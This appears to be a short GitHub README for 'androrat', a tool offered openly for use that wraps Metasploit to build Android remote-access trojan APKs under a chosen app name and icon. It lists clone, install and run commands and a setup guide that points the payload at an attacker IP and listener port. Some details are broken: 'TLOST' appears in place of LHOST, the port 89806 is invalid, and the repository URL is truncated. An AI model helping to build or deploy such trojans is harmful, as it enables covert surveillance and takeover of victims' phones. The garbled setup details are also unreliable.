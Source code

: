 # androrat
made by hacker dj 
metasploit payload creator
# installation

 
git clone https://github.com/dhanu7673/



      cd androrat
      
      chmod +x install.sh
      
      bash install.sh
# run
bash androrat.sh
# requerments
use mobile data and turn on hotspot 
# GUIDE
SET TLOST 193.161.193.99 (your lhost)

SET LPORT 89806  (your lport)

SET APP NAME example (without extension .apk

SET PHOTO PATH /sdcard/image.jpg (your poto path)

SET LISTNER PORT 8080 (your listner port)
